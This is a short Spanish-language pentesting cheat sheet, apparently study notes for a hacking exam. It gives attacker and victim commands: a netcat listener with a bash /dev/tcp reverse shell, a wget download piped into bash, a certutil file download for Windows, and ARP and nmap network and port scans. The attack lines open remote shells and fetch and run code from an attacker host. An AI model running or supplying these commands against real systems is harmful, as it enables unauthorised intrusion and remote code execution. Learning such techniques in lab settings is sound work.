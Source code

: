 ## Uso de NetCat

El uso de NetCat nos ayuda a entablar conexiones (que generalmente es mediante reverse shells) hacia una máquina victima para ejecución remota de comandos.
https://www.revshells.com/

Máquina atacante:
``` bash
nc -lnvp 443
```

Máquina victima:
``` bash
sh -i >& /dev/tcp/ip atacante/443 0>&1
```

## Compartir archivos mediante un servidor http con python

Este método para compartir archivos nos es bastante útil debido a que mediante una petición http a nuestra máquina atacante podemos pasar archivos a la máquina victima.

Máquina atacante:
``` bash
python3 -m http.server 80
```

Máquina victima:
``` bash
wget http://ip atacente/archivo | bash (ejecución)
```

### Y para máquinas Windows?

Máquina atacante:
``` bash
python3 -m http.server 80
```

Máquina victima:
``` powershell
certutil -split -urlcache -f http://ip atacente/archivo nombre_final
```

## Reconocimiento de la red con ARP-SCAN o NETDISCOVER

Estas herramientas nos ayudan a identificar equipos dentro de nuestra red, y es útil para hacer posibles saltos dentro de una red para comprometer mas equipos.

Máquina atacante:
``` bash
arp-scan -I eth0 --localnet

netdiscover -i eth0 -r 192.160.1.0/24

nmap -sn 192.160.1.0/24
```

Mediante un ping podemos identificar a que SO nos estamos enfrentando:
- TTL -> 128 (Windows)
- TTL -> 64 (Linux)

## Escaneos básicos con NMAP

reconocimiento personalizado de nmap.
``` bash
nmap -p- -sS --open --min-rate 1500 -vvv -n -Pn IP -oN escaneo
```

una vez obtenidos los puertos expuestos podemos buscar versiones y descripción del puerto.
``` bash
nmap -sCV -pPuertosEncontrados
```

De aquí es mejor usar Metasploit junto con el script "vuln" de nmap porque no se puede acceder a internet desde la máquina del examen.

### Y si no encuentro puertos abiertos con NMAP?

Probablemente los puertos abiertos se encentren bajo el protocolo UDP

Escanearemos la máquina victima de la siguiente manera:
``` bash
nmap -sU --top-ports 200 --open --min-rate 1500 -vvv -n -Pn IP -oN escaneo
```

